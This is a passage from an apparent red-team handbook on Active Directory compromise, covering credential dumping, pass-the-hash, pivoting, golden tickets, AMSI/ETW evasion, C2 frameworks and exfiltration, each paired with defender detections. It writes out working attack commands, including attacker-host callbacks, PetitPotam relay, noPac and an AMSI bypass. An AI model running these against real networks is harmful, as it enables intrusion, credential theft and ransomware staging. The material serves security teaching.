| Impacket `secretsdump.py` | DCSync / VSS / Kerb-Key-List, no agent | T1003.003/006 | DRSUAPI RPC from non-DC; VSS shadow copy creation |
| NetExec `--sam/--lsa/--ntds` | Network-wide SAM/LSA/NTDS | T1003.002/003 | SMB sessions to DC; ntds.dit access |
| Rubeus `tgtdeleg` | Current user's TGT without LSASS elevation | T1558 | AS-REQ from abnormal process |

Mimikatz reference workflow:

```text
privilege::debug
sekurlsa::logonpasswords
lsadump::dcsync /domain:corp.local /user:krbtgt
kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:HASH /ptt
sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:HASH /run:cmd.exe
```

### Pass-the-hash and alternate auth materials (T1550)

- **PtH** (T1550.002): `nxc smb 10.0.0.0/24 -u administrator -H 'aad3b...:8846f...'`; `evil-winrm -i 10.0.0.5 -u Administrator -H <NTHASH>`.
- **PtT / overpass-the-hash** (T1550.003): Rubeus `asktgt /user:dfm.a /rc4:HASH /ptt` uses `LsaCallAuthenticationPackage()` and raw Kerberos (port 88) instead of LSASS access, lowering one detection surface ([Rubeus](https://github.com/GhostPack/Rubeus)).
- **Golden Ticket** (T1558.001): forged TGT signed with krbtgt hash; 10-year lifetime by default in `ticketer.py`. DfI alert 2013.
- **Silver/Diamond Ticket** (T1558.002): forged TGS; Diamond via `Rubeus.exe diamond /krbkey:... /tgtdeleg`.

### Defender view

- **Credential Guard / LSA Protected Process Light** — the structural fix; blocks sekurlsa PT methods.
- **LSASS ASR rule** (Block mode) — covers Mimikatz/ProcDump/comsvcs/nanodump when Credential Guard isn't available.
- **Defender for Identity** alerts map directly: DCSync 2006 (T1003.006), Golden Ticket 2013 (T1558.001), Kerberoasting 2410 (T1558.003), AS-REP 2412 (T1558.004), Honeytoken auth 2014 (T1087.002) ([DfI alerts](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)).
- **Event 4776** (NTLM credential validation) is explicitly required by DfI sensors on DCs; error 0xC000006A (bad password) and 0xC0000234 (locked) signal brute-force/spray ([Event 4776](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/auditing/event-4776)). 4768/4769 Kerberos TGT/TGS are captured by the sensor from DC network traffic/ETW, not Windows event logs.
- **gMSAs/dMSAs** eliminate service-account password reuse; **Protected Users** group forces Kerberos AES and blocks NTLM/DELEGATE.
- **Mandiant M-Trends 2025**: stolen credentials became the #2 initial infection vector (16% of investigations in 2024), driven by infostealers; recommends FIDO2 and limiting browser autofill/stored credentials ([M-Trends 2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)).

---

## 20. Lateral Movement

Lateral movement (TA0008) spreads the foothold across the domain. From the credential materials harvested in the previous section, the standard primitives are SMB/SCM, WMI, WinRM, and Kerberos-based movement.

### Movement primitives

| Technique | Tool / command | Auth material | MITRE | Noise |
|---|---|---|---|---|
| SMB/SCM (PsExec) | `psexec.py DOMAIN/user:pass@10.0.0.5` | Password / hash | T1021.002 | Drops service binary to ADMIN$, Event 7045 |
| WMI | `wmiexec.py DOMAIN/user@target -hashes :NTHASH` | Password / hash | T1047 | DCOM, no binary drop, quieter |
| WinRM | `evil-winrm -i 10.0.0.5 -u Administrator -H <NTHASH>` | Password / hash / Kerberos | T1021.006 | Port 5985/5986 |
| Pass-the-ticket | `Rubeus.exe ptt /ticket:ticket.kirbi` | Kerberos TGT/TGS | T1550.003 | No logon event on DC |
| Overpass-the-hash | `Rubeus.exe asktgt /user:x /rc4:H /ptt` | NTLM hash → TGT | T1550.002 | AS-REQ from new process |
| RDP | Restricted Admin RDP (8.1/2012 R2+) | hash | T1021.001 | Event 4624 Type 10 |

Evil-WinRM supports in-memory assembly/DLL loading and Kerberos tickets:

```bash
evil-winrm -i dc01.corp.local -r CORP.LOCAL -K /path/ticket.ccache
# in-shell: menu, Invoke-Binary /opt/csharp/Rubeus.exe, Bypass-4MSI, upload/download
```

### Pivoting

Once inside a non-routable segment, pivoting is required. **ligolo-ng** is the modern choice (TUN interface, full TCP/UDP/ICMP, no proxychains):

```bash
# Attacker
sudo ip tuntap add user $USER mode tun ligolo && sudo ip link set ligolo up
./proxy -selfcert
# Target
./agent -connect <attacker_ip>:11601 -ignore-cert
# Proxy console: session -> 1 -> start; then route
sudo ip route add 10.1.2.0/24 dev ligolo
```

**chisel** is the simpler SOCKS alternative for HTTP-egress (`./chisel server -p 8000 --reverse --socks5`; `proxychains nmap -sT -Pn`). Neither requires admin on the agent side ([ligolo-ng docs](https://docs.ligolo.ng/)). MITRE T1090/T1572.

### Internal recon that enables movement

AD itself is the recon sensor — any domain user can enumerate without port scanning or admin rights. BloodHound/SharpHound is the modern standard for graph-based attack-path mapping:

```bash
# Linux remote
bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c DCOnly --zip
# Windows domain-joined
SharpHound.exe -c All --stealth --throttle 5000 --jitter 30
```

`DCOnly` is pure LDAP with no workstation touch (lowest footprint). PowerView remains useful for raw LDAP queries: `Get-DomainUser -SPN` (kerberoastable), `Get-DomainUser -PreauthNotRequired` (AS-REP), `Get-DomainGroupMember -Identity 'Domain Admins' -Recurse`, `Find-DomainUserLocation -UserGroupIdentity 'Domain Admins'` (hunt DA sessions) ([PowerSploit](https://github.com/PowerShellMafia/PowerSploit)). harmj0y's "I Hunt Sys Admins" shows `Invoke-UserHunter` comparing `Get-NetSession`/`Get-NetLoggedon` against a target user set — admin privileges NOT needed ([harmj0y](https://blog.harmj0y.net/penetesting/i-hunt-sysadmins/)). **SPN scanning** (`(servicePrincipalName=*sql*)`) is the canonical stealthy service discovery — indexed AD attribute, looks like normal Kerberos client activity ([ADSecurity.org](https://adsecurity.org/?p=230)).

### Coercion and relay as movement enablers

PetitPotam (CVE-2021-36942) coerces NTLM auth from DCs via MS-EFSRPC; paired with ntlmrelayx → AD CS ESC8 it yields domain takeover. Responder poisons LLMNR/NBT-NS/mDNS to capture hashes; disable SMB/HTTP in `Responder.conf` and run `ntlmrelayx.py -tf targets.txt -smb2support` to relay instead of crack ([Responder](https://github.com/lgandx/Responder)).

### Defender view

- **Enforce SMB signing** on all hosts (blunts ntlmrelayx); enforce LDAP signing + channel binding; EPA on AD CS web enrollment; `MachineAccountQuota=0`.
- **Disable LLMNR/NBT-NS** via Group Policy.
- **Monitor Event 7045** (service install) for PsExec-style drops; **ADMIN$ writes**; **4624 Type 3** from unusual source IPs; **4768/4769** for forwarded TGTs across trusts.
- **LAPS** randomizes local admin passwords per host so PtH doesn't chain; **gMSA/dMSA** for service accounts.
- **Mark privileged computer accounts `AccountNotDelegated:$true`** to prevent Kerberos delegation abuse:
  ```powershell
  Get-ADComputer -Identity ComputerA | Set-ADAccountControl -AccountNotDelegated:$true
  ```
- **Canary/honeytoken accounts** — DfI alert 2014 fires on 4768/4769/4776 auth against a honeytoken (T1087.002).
- **Restrict WinRM/PowerShell Remoting** to administrative jump boxes (Tier 1); use Just Enough Administration (JEA) and PAM for time-boxed elevation.
- **Detect SharpHound/BloodHound collection** via LDAP query-volume anomalies and the SpecterOps canary-object pattern (Event 4662 on read of a planted honey object).## 21. Persistence & Domain Dominance

Once an attacker holds Domain Admin (or equivalent) rights, the goal shifts from "break in" to "stay in." Persistence means surviving reboots, password resets, and partial cleanup. Domain dominance means the attacker controls the directory itself, not just one account.

**Golden Ticket (T1558.001).** The krbtgt account's hash signs every Kerberos Ticket-Granting Ticket (TGT) in the domain. Anyone who holds that hash can forge a TGT for any user, with any group membership, for years. Mimikatz:

```text
kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-... /krbtgt:<HASH> /ticket:golden.kirbi /ptt
```

Rubeus equivalent: `Rubeus.exe golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /aes256:<KEY> /ptt`. Because the forged ticket never touches the DC, there is no 4768 TGT-request event — only 4769 TGS requests from an account that "is" a Domain Admin. Defender signal: Event 4769 with no preceding 4768, anomalous ticket lifetimes, or tickets for disabled/deleted accounts ([Defender for Identity alert 2013](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Corrective control: reset krbtgt **twice**, ≥10 hours apart, to invalidate all outstanding TGTs ([MS forest recovery guide](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/forest-recovery-guide/ad-forest-recovery-reset-the-krbtgt-password)).

**DCSync (T1003.006).** DCSync is not an exploit — it is the legitimate MS-DRSR replication protocol (`IDL_DRSGetNCChanges`) abused by any account holding the `DS-Replication-Get-Changes-All` control access right ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b5fc7747-3020-418c-bdb3-6c9f78cc8315)). Mimikatz `lsadump::dcsync /domain:corp.local /user:krbtgt` or Impacket `secretsdump.py corp/user:pass@DC -just-dc`. Defender: Event 4662 with access mask `0x113f` from a non-DC account → Defender for Identity alert 2006. Secure Score assessment "Remove non-admin accounts with DCSync permissions" surfaces the over-privileged accounts that make this possible.

**Skeleton Key (T1556.001).** `misc::skeleton` patches LSASS on a DC so a single shared password (`mimikatz`) authenticates as *any* user while real passwords still work. Detection: LSASS memory modification, unexpected 4624 logons using the skeleton password. Mitigation: Credential Guard, LSASS Protected Process Light, the [LSASS ASR rule](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`).

**RBCD persistence (T1558.003).** Elad Shamir's [Wagging the Dog](https://eladshamir.com/2019/01/28/Wagging-the-Dog.html) showed any domain user can write `msDS-ManagedAllowedToActOnBehalfOfOtherIdentity` on a target and impersonate arbitrary users via S4U2Self/S4U2Proxy. Planting RBCD on `krbtgt` or a Tier-0 host creates a silent, ACL-based backdoor. Detection: LDAP write Event 5136 on that attribute; 4769 service tickets to newly added SPNs.

**AdminSDHolder & ACL persistence.** Modify the AdminSDHolder ACL so a planted ACE inherits to every protected account on the next SDProp run (every 60 min). Survives group removal. Detect with periodic ACL diffing of AdminSDHolder and `AdminCount=1` objects.

**Diamond/Sapphire tickets.** Diamond TGT (Rubeus `diamond /krbkey:... /tgtdeleg`) injects a forged PAC into a legitimately requested TGT, producing a ticket whose encryption is valid AES — defeating RC4-based detection. Mitigation requires PAC validation, ticket anomaly analytics, and krbtgt rotation, not RC4 hunting alone.

## 22. Defense Evasion & Tradecraft

Detection is layered: AMSI (in-memory script scan), Defender AV (signature/ML), ETW (telemetry), Constrained Language Mode (CLM), and EDR behavioral rules. Evasion is about minimizing the surface you touch on each layer — not "defeating" all of them at once.

**AMSI bypass.** AMSI feeds in-memory .NET/PowerScript content to Defender. A common, patchable bypass patches `amsi.dll!AmsiScanBuffer` to return `AMSI_RESULT_CLEAN`. PowerShell one-liner (reflective):

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Defender view: Script Block Logging Event 4104 captures the *original* script content even when AMSI is patched — the bypass itself is logged. Hunt for `AmsiScanBuffer`, `amsiInitFailed`, `System.Reflection` patterns. Force AMSI patching detections via [Defender XDR](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide).

**CLM bypass.** Constrained Language Mode blocks COM, Win32 API calls, and most .NET in interactive PowerShell. It is enforced via `__PSLockdownPolicy` and AppLocker/WDAC. Bypasses: run a C# assembly via `execute-assembly` (CLM does not apply to the .NET host), use `Install-Util` to load a full-language assembly, or inject into a full-language process. Defender: Event 4104 with `PowerShell.ConstrainedLanguage` field, monitor for `System.Management.Automation.ExecutionContext` reflection.

**ETW patching.** Many EDRs rely on ETW providers (e.g., `Microsoft-Windows-Kernel-General`). A userland patch of `ntdll!EtwEventWrite` to `ret` blinds telemetry. BOF example in [ajpc500/BOFs](https://github.com/ajpc500/bofs/). Defender: detect unsigned patches to `ntdll`, ETW provider stop events, `PatchLoadedImage` memory anomalies.

**Indirect syscalls & sleep obfuscation.** Direct syscalls read from a hardcoded `syscall` instruction in your own image — easy to spot. Indirect syscalls (Havoc Demon, Sliver) jump to a `syscall` gadget inside `ntdll`, so the return address looks legitimate. Sleep obfuscation (Ekko, FOLIAGE) encrypts implant memory during sleep and uses `NtSetTimer`/APC callbacks to avoid an alertable thread. Defender: userland hooking misses these — rely on kernel callbacks (ObRegisterCallbacks, PsSetCreateProcessNotifyRoutine) and memory-scan-on-sleep (Defender for Endpoint memory scanning).

**LOLBins & LOLBAS.** `rundll32 comsvcs.dll,MiniDump` dumps LSASS without Mimikatz. `InstallUtil /logfile= /LogToConsole=false /U payload.dll` runs unsigned C# in a signed binary. These are T1218 (System Binary Proxy Execution). Mitigation: ASR rules, WDAC, behavioural alerts on parent-child anomalies (`rundll32` with no GUI, `InstallUtil` from a user temp path).

**OPSEC defaults to break.** Cobalt Strike default `beacon.exe`, default sleep 60s/0 jitter, `^` in `ps` output, default SMB pipe name `msagent_*` — all are high-signal. Set `sleep 300 20`, custom pipe names, `spawnto x64_*.exe`, and `process-inject` block with a clean spawnto. Enable `limits.beacons_xssvalidated=true` after [CVE-2022-39197](https://nvd.nist.gov/vuln/detail/cve-2022-39197) (Cobalt Strike XSS-to-RCE on the operator client).

## 23. Command & Control (C2)

C2 is the channel that turns a one-shot implant into a persistent operation. The choice of transport defines your network detection surface.

**Transports compared.**

| Transport | Strength | Detection signal |
|---|---|---|
| HTTPS | blends with web | TLS JA3/JA4, SNI, beacon cadence |
| DNS | egress through restrictive proxies | high TXT/NULL query volume, long labels |
| mTLS (Sliver) | strong auth, no MITM | non-browser TLS cert, fixed port 8888 |
| SMB pipe | no new network connection, pivots | 445 traffic to non-FSMO hosts, named pipe anomalies |
| WireGuard | fast, encrypted | UDP 53/8888/1337, unique handshake |

**Sliver (open-source Go C2).** `generate --mtls 10.0.0.1 --os windows --arch amd64` for an interactive session; `generate beacon --http https://c.com` for async. Listeners: `mtls`, `http`, `https --lets-encrypt`, `dns`, `wg`. Use `wg-socks` for full-tunnel pivoting. Per-implant asymmetric keys mean a leaked binary cannot impersonate another session. DNS canaries (`canaries` command) reveal infrastructure theft ([BishopFox/sliver](https://github.com/BishopFox/sliver)).

**Havoc (Demon agent).** Demon uses indirect syscalls, FOLIAGE/Ekko sleep masking, and a token vault — designed to evade userland EDR hooks. Build: `make client-build && make ts-build`; profile defines sleep/jitter/SleepMask and malleable HTTP Uris/UserAgent. BOFs run in-memory via COFF loading: `demon.InlineExecuteGetOutput(cb, "go", "Module.x64.o", b'')` ([HavocFramework/Havoc](https://github.com/HavocFramework/Havoc)).

**Cobalt Strike Malleable C2.** The profile DSL customizes URIs, headers, data transforms (base64/netbios/mask), sleeptime, jitter, useragent — the server interprets transforms in reverse. Validate with `c2lint`. Reference profiles: [Cobalt-Strike/Malleable-C2-Profiles](https://github.com/Cobalt-Strike/Malleable-C2-Profiles). Aggressor Script hooks `beacon_initial` for auto-run and `btask()` to log MITRE IDs.

**Domain fronting & dead-drop resolvers.** Fronting hides the true C2 behind a CDN front (e.g., a Microsoft/Azure hostname in the SNI). The DFIR Report's [EtherRAT/TukTuk case](https://thedfirreport.com/2026/05/11/flash-alert-etherrat-and-tuktuk-c2-end-in-the-gentleman-ransomware/) shows the modern evolution: C2 config stored on Ethereum/Arweave blockchain and SaaS (Supabase/ClickHouse) as a dead-drop resolver — no fixed C2 domain to sinkhole. This is the dark-web-style infra shift that complicates OSINT takedown.

**Defender view.** Hunt beacon cadence with `let`/`make_series` in Defender XDR: stable inter-arrival delta + low variance = beacon. JA3/JA4 fingerprints pinned to a host with no browser process. DNS: `sum(Bytes)` per label, count of `TXT` per resolver. Block by egress allow-list, TLS inspection (where legal), and [Defender ASR](https://learn.microsoft.com/en-us/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) for the execution side.

## 24. Exfiltration & Impact

Exfiltration is the goal of espionage; impact (encryption/extortion) is the goal of ransomware. Both are where the attacker finally monetizes — and where defenders get their last, clearest signal.

**Exfiltration channels.**

- **DNS tunneling (T1048.004).** Encodes data into TXT/NULL/CNAME queries to an attacker-controlled authoritative NS. High byte volume per query, long labels (>63 chars split), and consistent parent domain. RedFoxSec walkthrough uses `iodine`/`dnscat2`. Defender: Sentinel KQL — `DnsEvents | where Name has any (long-label signals) | summarize sum(IpEntityCount) by ClientIP`.
- **HTTPS to cloud storage.** Upload to MEGA, S3, GoFile. ProxyLogon attackers exfiltrated mailboxes to MEGA ([NVD CVE-2021-26855](https://nvd.nist.gov/vuln/detail/cve-2021-26855)). Defender: DLP on egress, anomaly on first-time large upload to a new external host.
- **Blockchain/SaaS dead-drop.** TukTuk pulls C2 config and exfils via Arweave + Supabase — appears as normal cloud API traffic. Defender must correlate on identity, not destination domain alone.

**Ransomware impact (T1486).** The 7-day infostealer-to-ransomware timeline ([Saptang Labs](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)): Day 0 personal device infected → Day 1 log on Telegram (~$45 corporate VPN+SSO) → Day 2 IAB validates session-cookie access → Day 3 access listed (~$3,200) → Day 4 affiliate buys, internal recon → Days 5-6 privesc, disable security → Day 7 deploy. Median demand ~$2.8M; Unit 42 reports the fastest 25% exfiltrate in ~72 minutes.

**Double extortion.** Cl0p's playbook across Accellion FTA, GoAnywhere, and MOVEit is the canonical pattern: zero-day → web shell (DEWMODE/LEMURLOOT) → DB exfil → extortion emails → CL0P-LEAKS `.onion` leak site, *no encryption* ([CISA AA23-158A](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-158a)). Unit 42's 2023 data: 3,998 leak-site posts (up 49% from 2022), July 2023 peak (495 posts) driven by MOVEit CVE-2023-34362 ([Unit 42](https://unit42.paloaltonetworks.com/unit-42-ransomware-leak-site-data-analysis-all-2023/)). DLS data *undercounts* — CL0P claimed 364 orgs but MOVEit hit 2,730+.

**Defender controls.**
- Backups: immutable, offline, tested. Veeam CVE-2023-27532 was abused to dump the credential DB and reach Domain Admin — patch backup infrastructure as Tier 0 ([NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-27532)).
- MFA enforcement on SaaS (Snowflake UNC5537 — 165+ tenants breached because ~80% of reused creds had no MFA ([Mandiant](https://cloud.google.com/blog/topics/threat-intelligence/unc5537-snowflake-data-theft-extortion)).
- Exfiltration detection: [AU-13(1)](https://nist-sp-800-53-r5.bsafes.com/docs/3-19-system-and-information-integrity/si-4-system-monitoring/) open-source monitoring, egress baseline anomaly, DLP on `*.onion` Tor exit traffic.
- Leak-site monitoring: [RansomLook](https://github.com/RansomLook/RansomLook), [ransomwatch](https://github.com/joshhighet/ransomwatch) scrape .onion extortion pages every few hours — set alerts for your domain.

## 25. Step-by-Step Exploitation

A single end-to-end chain, from OSINT-derived credential to domain dominance. This mirrors CRTP ADLab objectives and the [RedFoxSec walkthrough](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations).



**Step 1 — Initial access via leaked credentials (T1078, T1589.001).** An OSINT sweep of breach aggregators (DeHashed/IntelX/Snusbase) returns 30+ corporate accounts for `*@targetcorp.com`. A password-spray with the seasonal password `Spring2026!` against Entra ID (managed domain) using AWS API Gateway IP rotation yields 3 valid logins. Defender: Entra ID Protection `leakedCredentials` risk detection + 4771 Kerberos pre-auth failures (0x18) + 4625 with `SubStatus 0xC000006A` ([T1110.004 detection](https://df00tech.com/detections/T1110.004)). Mitigation: [NIST SP 800-63B-4](https://nvlpubs.nist.gov/nistpubs/SpecialPublications/NIST.SP.800-63B-4.pdf) breached-password blocklist, FIDO2, conditional access.

**Step 2 — Internal recon (T1087.002, T1018).** As a standard domain user, run `SharpHound.exe -c DCOnly` (no workstation touch, lowest footprint) or `bloodhound-ce-python -d corp.local -u user -p pass -ns 10.0.0.1 -c DCOnly`. Import to BloodHound CE, run the "Shortest Paths to Domain Admins" query. Any authenticated user can do this — no admin rights needed ([zer1t0](https://zer1t0.gitlab.io/posts/attacking_ad/)). Defender: LDAP query volume anomaly, Event 5136/5145 on unusual object reads. Canary objects emit 4662 on read → high-fidelity BloodHound/Kerberoast detection ([NSA/CISA AD advisory](https://media.defense.gov/2024/Sep/25/2003553985/-1/-1/0/CTR-DETECTING-AND-MITIGATING-AD-COMPROMISES.PDF)).

**Step 3 — Kerberoast (T1558.003).** Identify SPN accounts: `Get-DomainUser -SPN`. Request TGS for each: `Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt` (opsec mode filters AES-enabled accounts, leaving only RC4-crackable targets). Crack: `hashcat -m 13100 hashes.txt rockyou.txt`. A service account with a weak password yields plaintext. Defender: Event 4769 with ticket encryption type `0x17` (RC4) — the single highest-signal Kerberoast indicator ([Defender for Identity alert 2410](https://github.com/MicrosoftDocs/ATADocs/blob/main/ATPDocs/credential-access-alerts.md)). Mitigation: gMSAs (120-char auto-rotated), dMSA (Server 2025), RC4 disabled by default in Win11 24H2/Server 2025.

**Step 4 — Privilege escalation to DCSync (T1003.006).** The cracked service account has `GenericAll` on a Tier-0 host or, via ACL abuse, was granted `DS-Replication-Get-Changes-All`. Run `secretsdump.py corp/svc-sql:pass@DC -just-dc-user krbtgt` or Mimikatz `lsadump::dcsync /user:krbtgt`. Defender: Event 4662, access mask `0x113f`, from a non-DC account → alert 2006. Mitigation: [Secure Score "Remove non-admin accounts with DCSync permissions"](https://learn.microsoft.com/en-us/defender-for-identity/security-posture-assessments/accounts).

**Step 5 — Golden Ticket persistence (T1558.001).** `kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-... /krbtgt:<HASH> /ptt`. Access any service as Domain Admin. Layer RBCD on `krbtgt` for ACL-based survival. Defender: 4769 with no preceding 4768; tickets for deleted accounts. Corrective: double krbtgt reset ≥10h apart.

**Step 6 — Lateral movement (T1021.002, T1047).** `wmiexec.py corp/Administrator@10.0.0.5 -hashes :NTHASH` (quiet, no service drop) or `evil-winrm -i 10.0.0.5 -u Administrator -H <NTHASH>`. Avoid `psexec.py` (drops a service binary, Event 7045). Defender: 4624 type 3 from new source, ADMIN$ writes, `nxc smb` fingerprinting.

## 26. Multiple Exploitation Scenarios

Real engagements rarely follow one path. These scenarios show how the same primitives combine under different initial conditions.

**Scenario A — Infostealer session-cookie to Domain Admin.** A finance user's personal laptop is infected with Lumma (malvertising/ClickFix). The stealer log (creds + Entra ID session cookies) is sold on RussianMarket for ~$45. The IAB replays the session cookie into the corporate VPN/SSO — **MFA never fires** because the session is already authenticated ([Ransomnews 2026](https://ransomnews.com/stealer-logs-explained-2026/), [Mandiant M-Trends 2025](https://cloud.google.com/blog/topics/threat-intelligence/m-trends-2025)). From the VPN, the attacker SharpHounds, finds an unconstrained-delegation DC, Kerberoasts, DCSyncs. Mitigation: FIDO2 (only phishing-resistant control that resists cookie replay), session lifetime caps, impossible-travel detection, Entra Conditional Access on device compliance.

**Scenario B — AD CS ESC8 relay to instant domain takeover.** No credentials needed. `ntlmrelayx.py -t http://CA/certsrv/certfnsh.asp --adcs --template DomainController` in one terminal; `python3 PetitPotam.py -u user -p pass <attacker_ip> <dc_fqdn>` coerces the DC to authenticate to the relay ([PetitPotam](https://github.com/topotam/PetitPotam), CVE-2021-36942). The CA issues a DC certificate; `certipy auth -pfx dc.pfx -dc-ip <DC>` returns the DC's NT hash as Administrator. Total time: minutes. Defender: enforce EPA (Extended Protection for Authentication) on AD CS web enrollment, LDAP signing + channel binding, SMB signing on DCs, `MachineAccountQuota=0`. Detection: MS-EFSRPC traffic to non-DC hosts, 4624 type 3 from the DC to an attacker IP.

**Scenario C — noPac one-shot Domain Admin.** CVE-2021-42278 (sAMAccountName spoofing) + CVE-2021-42287 (KDC PAC confusion). Any domain user + `ms-DS-MachineAccountQuota > 0` + unpatched DC. `noPac.py corp.local/user:'Pass!' -dc-ip 10.0.0.1 -dc-host DC01 -shell --impersonate administrator` ([cube0x0/noPac](https://github.com/cube0x0/nopac)). Defender: Event 4742 (computer account renamed to a DC name without `$`), 4741 (computer account creation), 4769 S4U2self from a non-DC machine account. Patch KB5008102/KB5008380/KB5008602.

**Scenario D — external VPN zero-day to ransomware.** OSINT with Shodan/Censys finds an unpatched FortiOS SSL-VPN. CVE-2024-21762 (unauth RCE) or CVE-2018-13379 (path traversal dumping session creds) gives a foothold ([NVD CVE-2024-21762](https://nvd.nist.gov/vuln/detail/CVE-2024-21762), [RedFoxSec](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations)). Internal recon → Veeam CVE-2023-27532 dumps backup creds → Domain Admin → deploy ransomware; exfil via DNS tunneling; list on a Tor leak site. Defender: KEV-driven patch prioritization, [CISA KEV](https://www.cisa.gov/known-exploited-vulnerabilities-catalog) as the OSINT source for which CVEs are actively producing breach data. Track leak-site trackers ([RansomLook](https://github.com/RansomLook/RansomLook)) for your org's name.

**Scenario E — forest trust breach.** A compromised DC with unconstrained delegation in Forest A forces a DC in trusting Forest B to authenticate (MS-RPRN printer bug, `SpoolSample`/`Coercer`), capturing a forwarded TGT. Because the AD forest is [empirically not a security boundary](https://specterops.io/blog/2018/11/28/not-a-security-boundary-breaking-forest-trusts/), a single DC in one forest can compromise an entire trusting foreign forest. Defender: disable Print Spooler on DCs, eliminate unconstrained delegation, monitor 4769 for forwarded TGTs and TGT requests from foreign principals. Treat forest trusts as Tier 0.## 27. Real-World Attack Chains

A real attack chain is the end-to-end sequence of techniques that takes an adversary from zero access to domain dominance (or data exfiltration). Studying published chains is the fastest way to learn how isolated techniques compose, because every step is a decision forced by the previous step's result. This section dissects the canonical chain shape, then maps it to two published walkthroughs.

### The canonical chain

Most enterprise compromises follow a six-stage shape. Each stage maps to a MITRE ATT&CK tactic, and the defender's job is to break the chain at the earliest stage.



1. **Recon (T1590/T1589).** Subdomain mining via `crt.sh`, email harvesting with `theHarvester`, breach-credential lookup via DeHashed/IntelX/Snusbase, and Shodan exposure checks. This is the OSINT + dark-web phase covered across this chapter.
2. **Initial Access (T1078/T1190/T1566).** Credential stuffing with leaked creds, exploitation of an externally exposed CVE (Fortinet SSL-VPN, Citrix Bleed, MOVEit), or phishing. The SUDOROOT walkthrough documents a clean spray chain: `theHarvester` → breach-DB lookup → `AADInternals` email validation → password spraying with AWS API Gateway IP rotation ([SUDOROOT/Medium](https://medium.com/sud0root/mastering-modern-red-teaming-infrastructure-part-4-advanced-osint-techniques-credential-d2a80851a913)).
3. **Internal recon (T1018/T1087).** BloodHound/SharpHound collection, PowerView `Get-DomainUser -SPN`, SPN scanning. Any domain user; no admin rights.
4. **Privilege escalation / credential access (T1558/T1003).** Kerberoasting, AS-REP roasting, LSASS dumping, DCSync, AD CS ESC abuse.
5. **Persistence (T1558.001).** Golden Ticket, Skeleton Key, RBCD, or a stolen certificate.
6. **Exfiltration / impact (T1041/T1486).** DNS tunneling, cloud dead-drop (Arweave/Supabase), or ransomware deployment on a Tor leak site.

### Walkthrough 1: RedFoxSec full breach

The RedFoxSec walkthrough documents every stage with commands ([source](https://www.redfoxsec.com/blog/real-world-red-team-attack-chains-how-attackers-chain-vulnerabilities-to-compromise-entire-organizations)):

- Recon: `subfinder`, `httpx`, `crt.sh`, `theHarvester`.
- Initial access via CVE-2018-13379 (Fortinet SSL-VPN path traversal): `curl "https://vpn.target/remote/fgt_lang?lang=/../../../dev/cmdb/sslvpn_websession"` dumps session creds.
- C2: Sliver/Cobalt Strike; process injection into `explorer.exe`.
- Privesc: WinPEAS, PrintSpoofer (SeImpersonate), unquoted service paths.
- Credential access: `mimikatz sekurlsa::logonpasswords` (T1003.001), `Rubeus.exe kerberoast` + `hashcat -m 13100` (T1558.003), `lsadump::dcsync` (T1003.006), Golden Ticket (T1558.001).
- Exfil: DNS tunneling (T1048.004).

### Walkthrough 2: Haxoris physical + AD CS

The Haxoris case study shows OSINT-to-ESC8 plus a physical breach ([source](https://haxoris.com/blog-post/red-teaming-case-study)):

1. LinkedIn + leaked-database correlation confirms email format `[email protected]`.
2. Typosquat phishing ("new internal rewards system") captures 260 valid credentials, then immediately shuts down to minimize detection.
3. Certipy confirms ESC8; Netexec `Coerce_Plus` forces the DC to authenticate to the relay; `ntlmrelayx` relays to the AD CS HTTP web enrollment; the CA issues a DC certificate granting Domain Admin.
4. Physical: fire-equipment-inspector pretext, hidden RJ45 port behind a TV, custom 4G implant. Zero IDS/IPS detection.

### The compressed timeline

Saptang Labs documents that the credential-leak-to-ransomware timeline has compressed to roughly 7 days: Day 0 personal device infected (Lumma via malvertising/ClickFix); Day 1 log listed on Telegram (~$45 for corporate VPN+SSO creds); Day 2 IAB validates session-cookie access (MFA bypassed); Day 3 IAB lists verified access on Exploit (~$3,200); Day 4 ransomware affiliate buys access; Days 5-6 privesc and staging; Day 7 ransomware deploys, average demand \$2.8M ([source](https://saptanglabs.com/from-infostealer-to-enterprise-breach-the-7-day-journey-of-stolen-credentials/)). The company's first indication is typically the ransom note.

### Defender view

Break the chain early. The cheapest break is pre-compromise: external attack-surface management (Shodan/Censys monitoring for exposed CVE-vulnerable appliances), breached-password blocklists per NIST SP 800-63B-4, FIDO2 phishing-resistant MFA, and dark-web credential monitoring (Have I Been Pwned, SpyCloud, Microsoft Entra ID Protection `leakedCredentials`). Mid-chain: LSASS ASR rule (GUID `9e6c4e1f-7d60-472f-ba1a-a39ef669e4b2`), Credential Guard, SMB signing, Kerberos RC4 disablement. Late-chain: canary objects emitting Event 4662 on read catch Kerberoasting/DCSync/SharpHound enumeration; Event 4769 with RC4 etype 0x17 flags Kerberoasting.

## 28. Red Team Engagement Case Studies

